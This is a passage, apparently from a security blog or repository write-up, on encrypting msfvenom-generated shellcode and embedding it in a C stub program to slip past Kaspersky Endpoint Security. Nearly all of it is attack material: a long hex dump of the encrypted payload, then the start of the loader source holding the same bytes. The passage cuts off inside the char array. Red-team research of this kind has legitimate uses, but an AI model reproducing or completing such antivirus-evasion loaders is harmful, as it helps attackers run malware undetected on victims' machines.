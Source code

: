 [-] Encrypted Shellcode:

\x72\x6d\x20\x06\x6d\x02\x25\x20\x07\x0c\x7c\x25\x77\x6d\x7c\x25\x1b\x0c\x02\x0c\x06\x0c\x11\x20\x02\x25\x77\x25\x72\x7d\x11\x07\x07\x7d\x11\x78\x7d\x02\x20\x07\x01\x20\x06\x77\x78\x07\x7c\x06\x6d\x77\x1b\x6d\x77\x7d\x02\x07\x11\x20\x06\x20\x02\x6d\x7c\x72\x25\x25\x25\x7c\x6d\x07\x07\x01\x6d\x20\x25\x7c\x7c\x78\x0c\x72\x25\x72\x02\x7c\x25\x02\x7d\x25\x7d\x78\x77\x11\x06\x16\x20\x25\x6d\x07\x6d\x72\x7c\x01\x72\x01\x78\x0c\x78\x7d\x07\x25\x06\x7d\x25\x11\x07\x6d\x1b\x25\x25\x78\x7d\x11\x0c\x7d\x6d\x01\x1b\x02\x02\x1b\x20\x6d\x6d\x07\x1b\x07\x16\x78\x06\x1b\x0c\x01\x02\x7d\x07\x25\x1b\x07\x06\x77\x7c\x11\x0c\x01\x77\x25\x07\x7c\x11\x01\x7d\x77\x7c\x06\x0c\x11\x20\x07\x7c\x11\x7c\x01\x16\x0c\x7d\x02\x16\x7c\x72\x25\x6d\x16\x25\x11\x6d\x02\x72\x7d\x01\x01\x20\x7c\x6d\x1b\x06\x77\x72\x25\x02\x16\x7d\x07\x20\x6d\x07\x72\x01\x01\x16\x7c\x1b\x07\x25\x1b\x77\x06\x0c\x7d\x20\x16\x01\x25\x78\x20\x16\x11\x1b\x25\x25\x77\x16\x78\x25\x11\x78\x0c\x6d\x1b\x72\x1b\x01\x1b\x7c\x02\x02\x02\x02\x07\x0c\x06\x25\x78\x25\x11\x20\x06\x1b\x7d\x1b\x11\x0c\x07\x0c\x0c\x1b\x7c\x07\x02\x78\x1b\x78\x02\x16\x02\x77\x11\x77\x0c\x07\x25\x25\x01\x0c\x01\x01\x72\x01\x7c\x7d\x16\x7d\x0c\x77\x20\x02\x25\x1b\x02\x77\x01\x1b\x7d\x16\x20\x7c\x01\x6d\x7d\x20\x01\x16\x6d\x20\x7d\x7d\x01\x02\x72\x01\x7d\x02\x77\x0c\x6d\x0c\x16\x6d\x20\x07\x20\x72\x06\x16\x72\x11\x02\x72\x25\x7c\x1b\x06\x77\x02\x7d\x20\x72\x1b\x20\x11\x1b\x6d\x7c\x6d\x1b\x06\x7d\x1b\x7d\x02\x6d\x77\x1b\x02\x72\x77\x11\x6d\x0c\x07\x16\x7c\x0c\x07\x16\x01\x7c\x06\x77\x20\x78\x16\x16\x20\x11\x7c\x11\x6d\x20\x01\x77\x11\x11\x7c\x25\x1b\x77\x25\x20\x11\x7c\x1b\x77\x02\x06\x72\x06\x6d\x78\x07\x01\x25\x06\x1b\x06\x78\x6d\x7c\x1b\x06\x11\x20\x06\x1b\x11\x77\x1b\x06\x11\x0c\x11\x7d\x01\x16\x78\x78\x20\x16\x16\x02\x78\x7d\x02\x20\x11\x20\x78\x0c\x6d\x77\x0c\x77\x07\x7d\x72\x01\x02\x02\x16\x07\x78\x25\x0c\x25\x11\x11\x25\x7d\x02\x20\x77\x07\x7d\x7d\x7d\x1b\x0c\x78\x72\x07\x01\x6d\x02\x11\x02\x07\x72\x6d\x20\x02\x25\x72\x7d\x06\x06\x77\x25\x02\x7c\x25\x77\x11\x1b\x25\x01\x72\x6d\x16\x6d\x07\x16\x01\x7c\x11\x72\x16\x6d\x7d\x07\x20\x11\x06\x20\x06\x25\x06\x20\x11\x11\x1b\x16\x01\x02\x11\x16\x78\x02\x7c\x06\x7c\x0c\x6d\x01\x77\x16\x77\x7c\x0c\x06\x7d\x25\x06\x0c\x78\x06\x78\x25\x16\x02\x72\x77\x77\x72\x01\x6d\x16\x7c\x07\x7c\x25\x25\x11\x1b\x0c\x6d\x02\x7c\x16\x1b\x11\x1b\x7c\x16\x7d\x25\x07\x1b\x78\x01\x20\x78\x06\x1b\x06\x7d\x06\x20\x16\x02\x6d\x7d\x6d\x72\x11\x1b\x02\x7c\x02\x11\x02\x7c\x25\x0c\x01\x01\x07\x07\x07\x02\x06\x7d\x25\x20\x7c\x72\x20\x07\x6d\x77\x7c\x77\x01\x0c\x02\x77\x07\x25\x01\x25\x25\x7c\x11\x78\x7c\x25\x7d\x16\x1b\x0c\x7c\x7d\x01\x25\x11\x77\x7c\x0c\x1b\x78\x16\x02\x07\x25\x20\x7c\x77\x78\x01\x06\x72\x6d\x1b\x20\x78\x16\x7d\x16\x07\x25\x20\x20\x06\x1b\x01\x7c\x02\x7d\x06\x25\x06\x02\x6d\x6d\x01\x11\x7d\x02\x20\x06\x6d\x07\x20\x07\x7d\x0c\x07\x77\x77\x07\x20\x7d

[+] Encrypted Shellcode Length = 710

</pre>


<p align="justify">
As we see from the output above we have encrypted the shellcode generated from <b>msfvenom</b> and the length of the encrypted shellcode is 710 bytes. At this point we are ready to use the encrypted shellcode into our STUB program in order to test it against the Kaspersky Endpoint Security software.
</p>

```c
#include <windows.h>
#include <iostream>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <malloc.h>

char code[] = "\x72\x6d\x20\x06\x6d\x02\x25\x20\x07\x0c\x7c\x25\x77\x6d"
"\x7c\x25\x1b\x0c\x02\x0c\x06\x0c\x11\x20\x02\x25\x77\x25\x72\x7d\x11\x07"
"\x07\x7d\x11\x78\x7d\x02\x20\x07\x01\x20\x06\x77\x78\x07\x7c\x06\x6d\x77"
"\x1b\x6d\x77\x7d\x02\x07\x11\x20\x06\x20\x02\x6d\x7c\x72\x25\x25\x25\x7c"
"\x6d\x07\x07\x01\x6d\x20\x25\x7c\x7c\x78\x0c\x72\x25\x72\x02\x7c\x25\x02"
"\x7d\x25\x7d\x78\x77\x11\x06\x16\x20\x25\x6d\x07\x6d\x72\x7c\x01\x72\x01"
"\x78\x0c\x78\x7d\x07\x25\x06\x7d\x25\x11\x07\x6d\x1b\x25\x25\x78\x7d\x11"
"\x0c\x7d\x6d\x01\x1b\x02\x02\x1b\x20\x6d\x6d\x07\x1b\x07\x16\x78\x06\x1b"
"\x0c\x01\x02\x7d\x07\x25\x1b\x07\x06\x77\x7c\x11\x0c\x01\x77\x25\x07\x7c"
"\x11\x01\x7d\x77\x7c\x06\x0c\x11\x20\x07\x7c\x11\x7c\x01\x16\x0c\x7d\x02"
"\x16\x7c\x72\x25\x6d\x16\x25\x11\x6d\x02\x72\x7d\x01\x01\x20\x7c\x6d\x1b"
"\x06\x77\x72\x25\x02\x16\x7d\x07\x20\x6d\x07\x72\x01\x01\x16\x7c\x1b\x07"
"\x25\x1b\x77\x06\x0c\x7d\x20\x16\x01\x25\x78\x20\x16\x11\x1b\x25\x25\x77"
```